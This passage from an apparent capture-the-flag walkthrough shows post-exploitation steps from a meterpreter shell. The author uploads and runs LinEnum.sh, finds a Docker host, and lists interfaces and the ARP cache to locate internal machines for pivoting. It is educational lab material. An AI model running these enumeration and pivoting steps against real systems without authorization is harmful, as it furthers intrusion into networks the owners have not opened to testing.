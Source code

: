 Be aware that the login page need to be kept open in order to keep the meterpreter shell alive.

# LinEnum.sh - Check

Let's now see what the can exploit on the target. For this I will upload LinEnum.sh, make it executable and run it. 

```bash
meterpreter > upload LinEnum.sh
[*] Uploading  : /home/c0xwl/LinEnum.sh -> LinEnum.sh
[*] Uploaded -1.00 B of 45.54 KiB (-0.0%): /home/c0xwl/LinEnum.sh -> LinEnum.sh
[*] Completed  : /home/c0xwl/LinEnum.sh -> LinEnum.sh
meterpreter > chmod +rwx LinEnum.sh 
meterpreter > shell
./LinEnum.sh

[...]

[+] Looks like we're hosting Docker:
Docker version 25.0.3, build 4debf41

```
# Docker and Hosts

The output provides some interesting details. First of all, we are on docker... Maybe there is something else running here...

```bash
# Still in the shell
hostname -I
10.10.99.14 172.17.0.1 10.10.10.1 
```
Maybe there is something else reachable from here. We should scan our surroundings based on the two other hosts provided.

```bash
^C
Terminate channel 2? [y/N]  y
meterpreter > arp

ARP cache
=========

    IP address   MAC address        Interface
    ----------   -----------        ---------
    10.10.10.10  02:42:0a:0a:0a:0a  br-333bcb432cd5
    10.10.99.1   bc:24:11:86:70:ea  ens18
```

Alright, something is running on 10.10.10.10. Let's find out!

Back in the shell and curl to that IP
